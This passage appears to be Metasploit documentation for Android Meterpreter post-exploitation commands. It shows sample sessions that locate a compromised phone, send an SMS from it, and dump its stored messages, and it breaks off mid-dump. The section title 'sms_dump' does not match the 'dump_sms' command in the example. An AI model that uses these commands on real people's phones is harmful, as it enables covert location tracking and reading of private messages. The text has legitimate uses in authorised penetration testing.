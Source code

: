 ```

**geolocate**

The ```geolocate``` commands allows you to locate the phone by retrieving the current lat-long
using geolocation.

**wlan_geolocate**

The ```wlan_geolocation``` command allows you to locate the phone by retrieving the current
lat-long using WLAN information. Example:

```
meterpreter > wlan_geolocate
[*] Google indicates the device is within 150 meters of 30.*******,-97.*******.
[*] Google Maps URL:  https://maps.google.com/?q=30.*******,-97.*******
```

**send_sms**

The ```send_sms``` command allows you to send an SMS message. Keep in mind the phone will keep a
copy of it, too.

```
meterpreter > send_sms -d "2674554859" -t "hello"
[+] SMS sent - Transmission successful
```

**sms_dump**

The ```sms_dump``` command allows you to retrieve SMS messages. And save them as a text file.
For example:

```
meterpreter > dump_sms
[*] Fetching 4 sms messages
[*] SMS messages saved to: sms_dump_20160308163212.txt

...

$ cat sms_dump_20160308163212.txt

=====================
[+] SMS messages dump
=====================

Date: 2016-03-08 15:30:12 -0600
OS: Android 5.1.1 - Linux 3.10.61-6309174 (aarch64)
Remote IP: 192.168.1.207
Remote Port: 59130

#1
Type	: Incoming
Date	: 2016-03-08 15:29:32
Address	: **********
Status	: NOT_RECEIVED
Message	: Hello world
